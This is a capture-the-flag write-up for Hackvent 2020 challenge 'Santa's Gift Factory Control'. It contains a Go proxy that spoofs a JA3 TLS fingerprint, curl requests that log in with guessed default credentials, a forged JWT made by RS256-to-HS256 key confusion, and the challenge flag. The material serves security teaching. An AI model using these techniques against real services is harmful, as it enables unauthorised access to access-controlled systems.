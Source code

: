 # HV20.17 Santa's Gift Factory Control

| <!-- --> | <!-- --> |
| --- | --- |
| **Author**     | fix86 |
| **Level**      | hard |
| **Categories** | `web security`, `crypto` |

## Description

Santa has a customized remote control panel for his gift factory at the north pole. Only clients with the following fingerprint seem to be able to connect:

`771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0`

### Mission
Connect to Santa's super-secret control panel and circumvent its access controls.

[Santa's Control Panel](https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/) (might be taken down after Hackvent 2020)

### Hints
- If you get a `403 forbidden`: this is part of the challenge
- The remote control panel does client fingerprinting
- There is an information leak somewhere which you need to solve the challenge
- The challenge is not solvable using brute force or injection vulnerabilities
- Newlines matter, check your files

## Approach

After a bit of web crawling, I found out that the given string `771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0` is a Ja3 TLS fingerprint (see https://ja3er.com/form).

To look for the client matching the fingerprint, I hashed it to an MD5 sum:
```bash
$ echo -n "771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0" | md5sum
a319533bd1a703430d9ad0e21c08c62f  -
```

`ja3er.com` returned `Go-http-client/1.1`. That, however, is a Golang version that's not available anymore.

After finding the blogpost at https://medium.com/cu-cyber/impersonating-ja3-fingerprints-b9f555880e42 it became clear that a Golang solution using https://github.com/cucyber/JA3Transport was needed to spoof/impersonate the Go 1.1 client.

After fiddling around with Go, implementing every request in Golang directly, compiling and running a Go binary, I decided to make this easier and to write a small proxy in Golang for local use, inspired by https://medium.com/swlh/proxy-server-in-golang-43e2365d9cbc.

The proxy:
```Golang
package main

import (
    "fmt"
    "github.com/CUCyber/ja3transport"
    "log"
    "net/http"
    "net/http/httputil"
    "net/url"
)

func main() {
    http.HandleFunc("/", Proxy)
    fmt.Println("About to listen on port 8081...")
    log.Fatal(http.ListenAndServe(":"+"8081", nil))
}

func Proxy(res http.ResponseWriter, req *http.Request) {
    uri := "https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land"
    serveReverseProxy(uri, res, req)
}

func serveReverseProxy(target string, res http.ResponseWriter, req *http.Request) {
    uri, _ := url.Parse(target)
    tr, _ := ja3transport.NewTransport("771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0")

    proxy := httputil.NewSingleHostReverseProxy(uri)
    proxy.Transport = tr
    proxy.ServeHTTP(res, req)
}

```
With that proxy in place I was now able to run regular requests against localhost:8081 from curl or a browser.

![Login](./login.png)

Next on: guess the username/password to be `admin` and `admin` (sometimes you've got to be lucky - or, like in my case, be stuck for an hour and try every possible combination including "santa" until *mcia* arrives and gives you the much needed hint -\_-).

The response to this successfully authenticated request includes a cookie and an html comment leaking some important information...

```bash
$ curl -X POST http://localhost:8081/login -d username=admin -d password=admin -i
HTTP/1.1 200 OK
Content-Length: 1275
Content-Type: text/html; charset=utf-8
Date: Thu, 17 Dec 2020 21:24:17 GMT
Server: nginx/1.19.6
Set-Cookie: session=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Ii9rZXlzLzFkMjFhOWY5NDUifQ.eyJleHAiOjE2MDgyNDM4NTcsImlhdCI6MTYwODI0MDI1Nywic3ViIjoibm9uZSJ9.HGF-i9KGo1vJ8NNuzc8MD34kignUlQSIPwLQDwLNFMk7I56n7Yeze0FcE3ODHjya_40egTCCDkGG1w_GQpv70n_tuGVhOKvzkA75LMCR5lmvCNOhWhPbutdLq3dGLvlWn0xeiW9Hh-is3mhTHL5u-yz2EB4XGXnGLialWYnFpZAA1KUN1iJpZ0w1wQEBQAYIT5a6FS_195zX_XKeKhNV_2l9jcNqwr36nYxJaOlkgnXlI8KvcGQl6MNUFj4lzg9wbfwMqAw_98ZqoItQAIHidtoy7Qpx8Qv3PHM_yjmV4vHa9osiM-ZfnljooBJNl46oXCzLU7NSClfO6FlHoIeZgQ; Path=/

[...]

                <input type="password" name="password" placeholder="Password" id="password">
                
                    <div class="msg">Invalid credentials.</div>
                
                <input type="submit" value="Login">
            </form>
        </div>
        
            <!--DevNotice: User santa seems broken. Temporarily use santa1337.-->
        
    </body>
</html>
```

The cookie contains a JWT, which looks like the following in its decoded form: 
```json
{"typ":"JWT","alg":"RS256","kid":"/keys/1d21a9f945"}.{"exp":1608243857,"iat":1608240257,"sub":"none"}.<signature>
```

Let's go fetch the signing keys:
```bash
$ curl http://localhost:8081/keys/1d21a9f945 -i
HTTP/1.1 200 OK
Content-Length: 451
Content-Type: text/html; charset=utf-8
Date: Thu, 17 Dec 2020 20:26:29 GMT
Server: nginx/1.19.6

-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0KDtdDsZ/wpGXWRnP6DY
Ri7OxTWiwPVg8eTsVcmbzAkk2r4itb3NqRw9xpJeUHorgfw1f9GkuAFg/squMrXb
SYM0Vcxqmtsq379xCw6s0pxIafPR7TEAVRh5Mxrudl2lwiO4vJPs+2tmcgui/bFn
wC+qByZtIlsP+rlT/MF2wLaWe/LNAWtOXdFVDOzUy6ylLZeL6fRtt9SiuUOQkkC3
US8TmvVQYcCcwvu4GBJeGdlKrbIuXIohl7hP5i9/KZ3kIvzByp/Xk5iq+tH95/9u
X/9FHKUSrcRE4NYVRhkqHPpn/EbqXHMX0BM0QoGETORlpZIo/lAOQ7/ezOd9z1fw
zwIDAQAB
-----END PUBLIC KEY-----

```

According to https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/ there are several known flaws inherent to JWTs. 

Therefore, different variants are possible now:
1. Try whether the server accepts `"none"` algorithm --> *failed* (with `"sub"` set to each of the values `"none"`, `"admin"` and `"santa1337"`).
2. Sign the JWT using the HS256 algorithm and the public key, so that when the server decrypts the signature using the public key, it will get a valid result. --> *succeeded* (with `"sub": "santa1337"`)

To confirm whether it works, query the website:

```bash
$ curl -X GET http://localhost:8081/ -b 'session=<JWT-here>' -i
```

The final working request producing a response including the flag was:
```bash
$ curl -X GET http://localhost:8081/ -b 'session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2MDgyNDM4NTcsImlhdCI6MTYwODI0MDI1Nywic3ViIjoic2FudGExMzM3In0._7cCkuK8MnGLM58xdhkkFAKy5UyrJQw7yzxA0brJ1eo' -i
HTTP/1.1 200 OK
Content-Length: 6515
Content-Type: text/html; charset=utf-8
Date: Thu, 17 Dec 2020 21:40:45 GMT
Server: nginx/1.19.6

<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <title>Santa's Control Panel</title>
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <link href="static/bootstrap/bootstrap.min.css" rel="stylesheet" media="screen">
        <link href="static/fontawesome/css/all.min.css" rel="stylesheet" media="screen">
        <link href="static/style.css" rel="stylesheet" media="screen">
    </head>
    <!--Congratulations, here's your flag: HV20{ja3_h45h_1mp3r50n4710n_15_fun}-->
    <body class="loggedin">
        <nav class="navtop">
            <div>
                <h1>Gift Factory Control</h1>
                <a href="/"><i class="fas fa-home"></i>Home</a>
                <a href="/logout"><i class="fas fa-sign-out-alt"></i>Logout</a>
            </div>
        </nav>

```

PS: Signing the JWT was made easy by CyberChef: [https://gchq.github.io/CyberChef/#recipe=JWT_Sign('-----BEGIN%2520PUBLIC%2520KEY...](https://gchq.github.io/CyberChef/#recipe=JWT_Sign('-----BEGIN%2520PUBLIC%2520KEY-----%255CnMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0KDtdDsZ/wpGXWRnP6DY%255CnRi7OxTWiwPVg8eTsVcmbzAkk2r4itb3NqRw9xpJeUHorgfw1f9GkuAFg/squMrXb%255CnSYM0Vcxqmtsq379xCw6s0pxIafPR7TEAVRh5Mxrudl2lwiO4vJPs%252B2tmcgui/bFn%255CnwC%252BqByZtIlsP%252BrlT/MF2wLaWe/LNAWtOXdFVDOzUy6ylLZeL6fRtt9SiuUOQkkC3%255CnUS8TmvVQYcCcwvu4GBJeGdlKrbIuXIohl7hP5i9/KZ3kIvzByp/Xk5iq%252BtH95/9u%255CnX/9FHKUSrcRE4NYVRhkqHPpn/EbqXHMX0BM0QoGETORlpZIo/lAOQ7/ezOd9z1fw%255CnzwIDAQAB%255Cn-----END%2520PUBLIC%2520KEY-----%255Cn','HS256')&input=eyJleHAiOjE2MDgyNDM4NTcsImlhdCI6MTYwODI0MDI1Nywic3ViIjoic2FudGExMzM3In0)

However(!!!), you had to keep the trailing newline at the end of the Public Key string. Because if you thought (like me): "Hey, let's be tidy and remove that trailing newline", you would get a different signature that would make an invalid JWT.... 

## Flag
`HV20{ja3_h45h_1mp3r50n4710n_15_fun}`

